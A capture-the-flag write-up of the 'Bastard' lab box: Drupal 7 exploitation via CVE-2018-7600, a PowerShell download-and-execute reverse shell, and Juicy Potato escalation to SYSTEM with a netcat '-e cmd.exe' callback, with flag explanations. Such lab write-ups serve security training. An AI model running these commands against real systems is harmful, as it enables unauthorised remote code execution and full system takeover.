# Recon

I do my initial scan to see which ports are open.
## nmap
```
# Nmap 7.92 scan initiated Wed Aug 10 17:03:18 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv bastard.htb
Nmap scan report for bastard.htb (10.129.83.90)
Host is up, received echo-reply ttl 127 (0.050s latency).
Scanned at 2022-08-10 17:03:18 CDT for 39s
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 127
135/tcp   open  msrpc   syn-ack ttl 127
49154/tcp open  unknown syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Aug 10 17:03:57 2022 -- 1 IP address (1 host up) scanned in 39.72 seconds
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan.

```
# Nmap 7.92 scan initiated Wed Aug 10 17:04:25 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 80,135,49154 bastard.htb
Nmap scan report for bastard.htb (10.129.83.90)
Host is up, received echo-reply ttl 127 (0.051s latency).
Scanned at 2022-08-10 17:04:26 CDT for 64s

PORT      STATE SERVICE REASON          VERSION
80/tcp    open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-generator: Drupal 7 (http://drupal.org)
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 10 17:05:30 2022 -- 1 IP address (1 host up) scanned in 65.07 seconds
```

I also ran a UDP scan, vuln scan and fuzzed for subdomains but didn't get much back, so it looks like we are working with Microsoft IIS httpd 7.5 on port 80, and Microsoft Windows RPC on port 135.

# Enumeration

## Website

Nikto and Feroxbuster didn't return anything too helpful, and after checking some of the disallowed entries in robots.txt, we see that authentication is required so nothing helpful there either, although one of the entries is `/CHANGELOG.txt` which reveals the current Drupal version:



I went straight to searchsploit and was welcomed with a list of possible exploits.


'Drupalgeddeon2' stood out to me but after some repeated failures, I thought that maybe I should enumerate Drupal more. I ended up using Droopescan which ended up taking almost an entire hour to run... And even then the output wasn't all that helpful. 
Droopescan: https://github.com/SamJoan/droopescan



But this is a very old version of Drupal... There has to be some sort of working exploit because there just isn't really anything left to enumerate, right?

This time I go to Google and eventually stumble across this Github repo:
https://github.com/a2u/CVE-2018-7600

I test command execution with `whoami` and confirm it works! 🥳



So I set up a reverse shell and append `Invoke-PowerShellTCP -Reverse -IPAddress 10.10.14.125 -Port 1337` to the end of the file, taken from this repo:
https://github.com/samratashok/nishang/tree/master/Shells



And then download and execute this file with my python http server up while using the following command...

`python3 CVE-2018-7600/drupa7-CVE-2018-7600.py  -c "C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.125:7331/Invoke-PowerShellTcp.ps1')" http://bastard.htb`





We get a shell back as an IIS service account for Drupal with `SeImpersonatePrivilege` enabled and from previous boxes I know that Juicy Potato is a good candidate for privilege escalation when we get a shell back as a service account like this.



So to try and attempt privilege escalation this way, I will need to drop Netcat on the box, along with Juicy Potato like so:

Juicy Potato: https://github.com/ohpe/juicy-potato
Netcat (I use the 64 bit version): https://github.com/int0x33/nc.exe/





We now have the amunition needed to fire our weapon...



I will use the following Juicy Potato command to achieve privilege escalation to SYSTEM.

`.\jp.exe -l 1234 -p "C:\Windows\System32\cmd.exe" -a "/c c:\inetpub\drupal-7.54\nc64.exe -e cmd.exe 10.10.14.125 9999" -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"`

Information about the flags that were used can be found from JP documentation, although I will briefly explain:

`-l 1234`: Use arbitrary DCOM port 1234.

`-p "C:\Windows\System32\cmd.exe"`: Tell JP to use `cmd.exe` as the main program for this.

`-a "/c c:\inetpub\drupal-7.54\nc64.exe -e cmd.exe 10.10.14.125 9999" -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"`: This is the command that should be passed to `-p` which in our case is `cmd.exe`. To be specific, we are telling `cmd.exe` to execute `nc64.exe` with elevated privileges and execute our reverse shell which we will catch on a new netcat instance listening on port 9999.

`-t *` try both `createprocess` calls (`<t> CreateProcessWithTokenW, <u> CreateProcessAsUser)`

`-c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"`: This is the CLSID I found from JP's documentation here (Note: it took a few tries to find a CLSID that worked):
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md



And there we have it! We are now system!



Time to collect our loot and move on to the next box! :)



